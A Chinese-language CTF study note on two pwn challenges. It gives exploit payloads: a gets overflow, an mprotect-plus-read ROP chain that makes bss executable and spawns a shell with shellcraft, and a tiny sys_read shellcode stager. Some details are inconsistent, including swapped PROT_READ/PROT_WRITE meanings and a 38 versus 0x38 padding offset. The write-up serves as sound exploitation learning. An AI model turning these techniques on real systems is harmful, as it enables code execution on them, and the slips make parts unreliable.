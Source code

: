 这周主要练车，学的时间比较短

# ret2Shellcode-Mprotect

在buu上看一道栈溢出的题get_started_3dsctf_2016

学习了一下别人wp中第二种做法，用Mprotect函数修改bss权限

## 题目

main函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

get_flag函数

```c
void __cdecl get_flag(int a1, int a2)
{
  int v2; // eax
  int v3; // esi
  unsigned __int8 v4; // al
  int v5; // ecx
  unsigned __int8 v6; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = v2;
    v4 = getc(v2);
    if ( v4 != 255 )
    {
      v5 = (char)v4;
      do
      {
        putchar(v5);
        v6 = getc(v3);
        v5 = (char)v6;
      }
      while ( v6 != 255 );
    }
    fclose(v3);
  }
}
```

### 思路一

一般思路

用gets溢出，然后给`a1`，`a2`赋对应的值

`if ( a1 == 0x308CD64F && a2 == 0x195719D1 )`

payload如下

```python
payload = b'a'*0x38+ p32(0x308CD64F) + p32(0x195719D1)
```

### 思路二

找到bss段地址0x080EBF80，我们要利用的是mprotect函数

mprotect

```
int mprotect(const void *start, size_t len, int prot);
	第一个参数填的是一个地址，是指需要进行操作的地址。
	第二个参数是地址往后多大的长度。
	第三个参数的是要赋予的权限。
mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。
prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：
　　1）PROT_READ：表示内存段内的内容可写；
　　2）PROT_WRITE：表示内存段内的内容可读；
　　3）PROT_EXEC：表示内存段中的内容可执行；
　　4）PROT_NONE：表示内存段中的内容根本没法访问。

```

而选为参数的地址必须包含整个内存页（4K），即要求的地址空间为4K的整数倍。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍



所以要修改bss段的权限，我们的起始地址要用0x80EB000，F80包含在内

然后参数中 prot=7 时是可读可写可执行

我们看一下bss段的权限

```c
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
 0x8048000  0x80ea000 r-xp    a2000      0 /mnt/c/users/lenovo/desktop/getstart
 0x80ea000  0x80ec000 rw-p     2000  a1000 /mnt/c/users/lenovo/desktop/getstart
 0x80ec000  0x810f000 rw-p    23000      0 [heap]
0xf7ff8000 0xf7ffc000 r--p     4000      0 [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000      0 [vdso]
0xfffdd000 0xffffe000 rw-p    21000      0 [stack]
```



然后就是payload的构造

```python
mprotect函数+pop3_ret+参数1+参数2+参数3+返回[read函数地址]+pop3_ret+参数1+参数2+参数3+返回[shellcode_addr]
先用mprotect修改权限为可执行，然后再用read函数读入我们构造的shellcode到bss段，然后再返回到shellcode上
```

这样就可以使不可执行的NX改成可执行



更改过后

```c
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
 0x8048000  0x80ea000 r-xp    a2000      0 /mnt/c/users/lenovo/desktop/getstart
 0x80ea000  0x80eb000 rw-p     2000  a1000 /mnt/c/users/lenovo/desktop/getstart
  0x80eb000  0x80ec000 rwxp     2000  a2000 /mnt/c/users/lenovo/desktop/getstart
 0x80ec000  0x810f000 rw-p    23000      0 [heap]
0xf7ff8000 0xf7ffc000 r--p     4000      0 [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000      0 [vdso]
0xfffdd000 0xffffe000 rw-p    21000      0 [stack]
```



可以看到我们要写入的bss段已经可执行了

然后shellcode打通即可

```python
payload = b'a'*38+p32(mprotect_addr)+p32(pop3_ret)+p32(bss_addr)+p32(0x1000)+p32(0x7)+p32(read_addr)+p32(pop3_ret)+p32(0)+p32(bss_addr)+p32(0x100)+p32(bss_addr)
io.sendline(payload)
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
io.sendline(shellcode)
```



# ret2shellcode之各种限制

题目这里参考  `铁人三项(第五赛区)_2018_seven`



题目限制了7字节shellcode



看了一下网上的wp，这题的思路是构造sys_read，从而注入完整的shellcode

查着学了一下构造sys_read的方法



 read(0,RSP,len)

汇编表示为

```c
push rsp
pop rsi
mov dx,si
syscall
```

因为rip和rsp的值大小不一定，多打几次直到rsp在rip上方，覆盖rip指向的内存，然后写入shellcode即可

```
shellcode = asm('''push rsp
                   pop rsi
                   mov edx,esi
                   syscall
                ''')
 
p.sendafter('Show me your shellcode:',shellcode)
payload = 'a'*0xb37 + asm(shellcraft.sh())
```



时间不够，主要就看了shellcode的一些构造，很难理解，下周再战